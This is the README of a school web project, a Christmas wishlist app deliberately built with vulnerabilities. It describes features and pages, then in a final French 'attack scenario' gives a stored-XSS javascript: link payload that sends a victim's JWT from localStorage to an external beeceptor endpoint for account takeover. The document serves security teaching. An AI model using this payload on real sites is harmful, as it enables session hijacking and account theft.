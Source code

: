 # 🎅 Santa's Wishlist 🎄
Create and share your Christmas wishlists to your friends to help Santa find what kind of gifts you want !\
⚠️ This project is a school project designed to demonstrate and exploit some web vulnerabilities.

## 🇫🇷 Consigne
Santa's little helper : cette application web permet aux membres d'un groupe de gérer une ou des listes de souhaits pour des cadeaux de Noël, et de choisir dans la liste d'autres personnes ce qu'ils pourront leur offrir (l'application garantissant l'absence de conflits et préservant au maximum la surprise). Différentes améliorations peuvent être imaginées, comme l'organisation d'un événement de type "secret santa", des facilités dans l'interactions avec des sites marchants, l'envoi de messages éventuellement anonymes...

## 👷 Installation
TODO

## 🎁 Functionalities
The user can create an account. When logged in, he can create a new wishlist for himself or see his other wishlists. To sign in, the following information are needed :
- a name
- a surname
- a pseudonym
- a password
- (TBI : email for password recovery. For now : DON'T FORGET YOU PASSWORD !)
- (TBI : a profile picture)

To create a wishlist, the user must give it a name. He then gets a unique link he can share to his friends (TBI : invite through in-website pseudonym). This link must be some kind of a hash to not be easily findable.

On a wishlist the user has created, he can add, edit or remove gifts. A gift is composed of (* = mandatory) :
- a name*
- a description
- a link (to Amazon for example)
- a price
- (TBI : a picture)

When a friend is given a link to a wishlist, he must log in and then gets redirected to the wishlist. He's added to the wishlist and can see all the gifts and other friends. The wishlist is automaticaly added to his wishlists on his profile to be accessed quickly.

On a wishlist, a friend can choose a gift he wants to buy. The gift is then marked as bought and cannot be selected by another friend (TBI : multiple friends should be able to buy the same gift together). The owner of the wishlist cannot see which gifts are already selected.

The owner of a wishlist can delete it at any time.

## 🕸️ Structure
**Main page :** home webpage explaining the concept of the website.

**Sign in :** quick form to create an account on the website.

**Log in :** form to log in. Only the pseudonym and password are needed.

The following pages require the user to be logged in :

**My Wishlists :** see your wishlists and invite some friends with the link. Add, edit or remove gifts or delete the wishlist.

**Friends' Wishlists :** access the wishlists you are invited to and choose some gifts you will buy to them. You can see which gifts are available.


## Scenario d'attaque

L'application est vulnérable aux XSS sur les liens des différents cadeaux : il est possible d'écrire `javascript:alert(1)` pour qu'au clic, une alerte s'affiche.

On joue l'attaque suivante : 

Sopalinge se connecte et crée un nouveau cadeau dans sa wishlist dont le lien contient le code suivant : `javascript:var xhr = new XMLHttpRequest();xhr.open("GET", "http://sopalinge.free.beeceptor.com/" + window.localStorage['santaToken'], false);xhr.send();`

Sopalinge se connecte à son endpoint beeceptor : `http://sopalinge.free.beeceptor.com/`.

Futex se connecte et consulte la wishlist de Sopalinge. Il clique sur le lien malveillant de Sopalinge et ne se rend compte de rien.

Pendant ce temps, Sopalinge récupère une requête sur son endpoint qui contient le token jwt de Futex. Il peut alors se connecter au site et modifier son token par celui de Futex et avoir accès à son compte !
